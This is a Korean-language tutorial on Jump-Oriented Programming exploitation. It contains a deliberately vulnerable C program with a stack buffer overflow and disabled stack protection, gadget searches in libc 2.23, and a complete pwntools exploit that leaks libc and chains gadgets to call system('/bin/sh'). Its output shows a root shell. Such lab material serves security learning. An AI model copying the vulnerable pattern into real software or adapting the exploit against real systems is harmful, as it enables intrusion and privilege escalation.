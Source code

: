 ## **Concept**

JOP는 JMP 명령을 사용해 프로그램 흐름을 제어하는 Exploit 기술이다.  
JOP Gadget은 "Exploit에 필요한 Code + JMP 명령어"이다.  
JOP는 여러개의 Gadget들을 실행시키기 위해 별도의 Gadget과 구조가 필요하다. 

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o jop jop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

72개 이상의 문자를 입력하면 Return Address를 덮어쓸 수 있다.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3b0:	0x4141414141414141	0x000000000040070a
```

#### **Exploit Method**
1. ROP Gadget을 이용하여 rax에 system() 함수 주소 저장
1. JOP Gadget을 이용하여 RDI 레지스터에 "/bin/sh" 저장 후 "jmp rax" 명령어로 system() 함수 호출

#### **Find Gadget**

```
root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 1 | grep "pop rax ; ret"
0x00033544: pop rax ; ret  ;  (1 found)
0x0003a727: pop rax ; ret  ;  (1 found)
0x0003a728: pop rax ; ret  ;  (1 found)
0x0003a7f7: pop rax ; ret  ;  (1 found)
0x0003a7f8: pop rax ; ret  ;  (1 found)
0x0003a8a0: pop rax ; ret  ;  (1 found)
0x0003a8a1: pop rax ; ret  ;  (1 found)
0x000abc07: pop rax ; ret  ;  (1 found)
0x00106272: pop rax ; ret  ;  (1 found)
0x00106273: pop rax ; ret  ;  (1 found)
0x001a1448: pop rax ; ret  ;  (1 found)
0x000caabc: pop rax ; retn 0x002F ;  (1 found)

root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 2 | grep "pop rdi ; jmp rax"
0x00104052: pop rdi ; jmp rax ;  (1 found)
```

## **Exploit Code**
```python
from pwn import *

p = process('./jop')
p.recvline()
printf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
system_addr = libBase + 0x45390
binsh_addr = libBase + 0x18cd57
pop_rax_ret = libBase + 0x33544
pop_rdi_jmp_rax = libBase + 0x104052

print('printf_addr: '+str(hex(printf_addr)))
print('libBase_addr: '+str(hex(libBase)))
print('system_addr: '+str(hex(system_addr)))
print('/bin/sh_addr: '+str(hex(binsh_addr)))
print('pop rax ; ret Gadget: '+str(hex(pop_rax_ret)))
print('pop rdi ; jmp rax Gadget: '+str(hex(pop_rdi_jmp_rax)))

payload = 'A'*72
payload += p64(pop_rax_ret)
payload += p64(system_addr)
payload += p64(pop_rdi_jmp_rax)
payload += p64(binsh_addr)


p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/jop# python exploit.py 
[+] Starting local process './jop': pid 2257
printf_addr: 0x7fc07b8a5800
libBase_addr: 0x7fc07b850000
system_addr: 0x7fc07b895390
/bin/sh_addr: 0x7fc07b9dcd57
pop rax ; ret Gadget: 0x7fc07b883544
pop rdi ; jmp rax Gadget: 0x7fc07b954052
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/jop
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810290>